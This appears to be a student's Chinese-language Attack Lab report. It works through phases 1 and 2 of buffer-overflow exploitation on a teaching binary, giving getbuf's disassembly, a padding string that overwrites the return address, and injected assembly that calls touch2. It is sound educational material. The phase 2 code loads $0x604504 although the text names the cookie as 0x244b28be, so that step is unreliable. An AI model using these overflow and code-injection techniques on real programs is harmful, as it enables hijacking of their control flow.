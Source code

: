 # Attacklab Report
##### 2021201709 李俊霖
## 1. 攻击思路与过程
### 1.1. phase 1
+ 分析：调用$getbuf$后，需要返回时返回到$touch1$函数。
```dotnetcli
000000000040182c <getbuf>:
  40182c:	48 83 ec 38          	sub    $0x38,%rsp
  401830:	48 89 e7             	mov    %rsp,%rdi
  401833:	e8 32 02 00 00       	callq  401a6a <Gets>
  401838:	b8 01 00 00 00       	mov    $0x1,%eax
  40183d:	48 83 c4 38          	add    $0x38,%rsp
  401841:	c3                   	retq   
```
+ 分析getbuf的汇编代码如上，需要先将56个字节将$getbuf$的栈空间填满，最后将返回$touch1$的地址。
+ 查到`touch1`代码地址为：`0x401842`。
+ 攻击串如下：
```dotnetcli
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
42 18 40 00 
```

### 1.2. phase 2
+ 查看`touch2`代码如下：
```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
+ 因此，输入的字符串不仅需要修改返回地址，返回时调用`touch2`，还要把`cookie`作为参数传进函数。
+ 通过在栈中保存目标代码的地址，然后re的方式跳转。
+ 大致思路：
  + 输入字符串把调用者栈中储存的返回地址，修改为存放注入代码的地址。
  + 编写注入代码。
  + 首先要把将第一个参数寄存器修改为`cookie`值，即`0x244b28be`。
  + 栈中压入touch2代码地址，ret指令调用返回touch2。
  + 注入代码的位置应该是`getbuf`函数中的栈顶。
+ 查到`touch2`代码地址为：`0x40186e`。
+ 查到`getbuf`函数栈顶为`0x55652108`。
+ 注入代码如下：
```dotnetcli
movq    $0x604504, %rdi
pushq   $0x40186e
ret
```